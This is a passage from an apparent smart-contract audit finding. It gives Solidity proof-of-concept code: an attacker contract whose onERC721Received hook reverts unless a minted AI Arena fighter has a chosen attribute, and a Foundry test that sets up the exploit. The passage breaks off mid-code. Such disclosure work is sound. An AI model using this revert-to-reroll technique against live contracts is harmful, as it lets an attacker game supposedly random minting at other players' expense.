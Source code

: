```solidity

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) public returns (bytes4){
        
        (,,uint256 weight,,,,) = fighterFarm.getAllFighterInfo(tokenId);
        require(weight == 95, "I don't want this attribute");

        return bytes4(keccak256(bytes("onERC721Received(address,address,uint256,bytes)")));
    }
}
```
Then, add this test to the FighterFarm.t.sol file and run it.
```solidity
function testPoCCanClaimSpecificAttributeByRevert() public {
    uint256 signerPrivateKey = 0xabc123;
    address _POC_DELEGATED_ADDRESS = vm.addr(signerPrivateKey);

    // setup fresh setting to use _POC_DELEGATED_ADDRESS
    _fighterFarmContract = new FighterFarm(_ownerAddress, _POC_DELEGATED_ADDRESS, _treasuryAddress);
    _helperContract = new AiArenaHelper(_probabilities);
    _mintPassContract = new AAMintPass(_ownerAddress, _POC_DELEGATED_ADDRESS);
    _mintPassContract.setFighterFarmAddress(address(_fighterFarmContract));
    _mintPassContract.setPaused(false);
    _gameItemsContract = new GameItems(_ownerAddress, _treasuryAddress);
    _voltageManagerContract = new VoltageManager(_ownerAddress, address(_gameItemsContract));
    _neuronContract = new Neuron(_ownerAddress, _treasuryAddress, _neuronContributorAddress);
    _rankedBattleContract = new RankedBattle(
        _ownerAddress, address(_fighterFarmContract), _POC_DELEGATED_ADDRESS, address(_voltageManagerContract)
    );
    _rankedBattleContract.instantiateNeuronContract(address(_neuronContract));
    _mergingPoolContract =
        new MergingPool(_ownerAddress, address(_rankedBattleContract), address(_fighterFarmContract));
    _fighterFarmContract.setMergingPoolAddress(address(_mergingPoolContract));
    _fighterFarmContract.instantiateAIArenaHelperContract(address(_helperContract));
    _fighterFarmContract.instantiateMintpassContract(address(_mintPassContract));
    _fighterFarmContract.instantiateNeuronContract(address(_neuronContract));
    _fighterFarmContract.setMergingPoolAddress(address(_mergingPoolContract));

    // --- PoC start ---
    address attacker_eoa = address(0x1337);
    vm.prank(attacker_eoa);
    PoCCanClaimSpecificAttributeByRevert attacker_contract_wallet = new PoCCanClaimSpecificAttributeByRevert(_fighterFarmContract);

    uint8[2] memory numToMint = [1, 0];
    
    string[] memory claimModelHashes = new string[](1);
    claimModelHashes[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";

    string[] memory claimModelTypes = new string[](1);
    claimModelTypes[0] = "original";
    
    // get sign
    vm.startPrank(_POC_DELEGATED_ADDRESS);
    bytes32 msgHash = keccak256(abi.encode(
        address(attacker_contract_wallet),
```